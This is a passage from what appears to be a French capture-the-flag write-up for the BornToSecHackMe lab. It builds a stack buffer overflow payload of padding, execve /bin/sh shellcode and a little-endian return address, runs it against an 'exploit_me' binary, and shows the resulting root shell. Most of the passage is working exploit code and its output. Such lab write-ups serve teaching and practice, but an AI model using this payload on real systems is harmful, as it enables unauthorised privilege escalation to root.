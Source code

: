 3. **Adresse de retour** :
   - Identifiée comme `0xbffff8a8`, cette adresse est utilisée pour diriger l'exécution vers le début de notre shellcode. En Little Endian, elle est représentée par `"\xa8\xf8\xff\xbf"`.

### Commande Finale

Voici comment assembler le payload final :

```bash
$(python -c 'print "A"*119 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\xa8\xf8\xff\xbf"')
```

### Exécution

Exécutons le payload pour obtenir un shell avec les droits root :

```bash
./exploit_me $(python -c 'print "A"*119 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\xa8\xf8\xff\xbf"')
```

### Résultat

```bash
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print "A"*119 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\xa8\xf8\xff\xbf"')
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
# whoami
root
```

Nous avons réussi à obtenir un shell root.

---
